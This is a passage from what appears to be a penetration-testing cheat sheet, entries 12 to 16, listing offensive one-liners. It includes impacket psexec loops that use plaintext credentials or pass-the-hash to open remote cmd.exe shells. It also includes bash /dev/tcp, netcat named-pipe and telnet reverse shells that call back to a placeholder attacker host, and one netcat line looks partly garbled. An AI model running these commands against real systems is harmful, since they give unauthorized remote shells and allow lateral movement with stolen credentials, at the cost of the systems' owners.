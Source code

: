 https://yg.ht
https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 12. loop around and open cmd, Psexecy.py != psexec msf != sysinternals psexec
```
for host in $(cat hosts.txt); do psexec.py [DOM]/[USER]:'[PASS]'@$host "cmd.exe"; done
```
**- linux,loop,impacket,remote command shell**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 13. PSExec with hashses
```
psexec.py -hashes [LM]:[NTLM] [DOM]/[USER]@[TARGET] "cmd.exe"
```
**- linux,impacket,remote command shell,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 14. bash reverse shell using a file handle '5'
```
exec 5<>/dev/tcp/[me]/[port]; while read line 0<&5; do $line 2>&5 >&5; done
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 15. telnet reverse shell
```
rm -f /tmp/p; mknod /tmp/p p && nc [me] [port] 0/tmp/p
```
**- linux,bash,reverse shells**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 16. telnet reverse shell
```
telnet [me] [port]| /bin/bash | telnet [me] [lport]
```
**- linux,bash,reverse shells**
#### References:
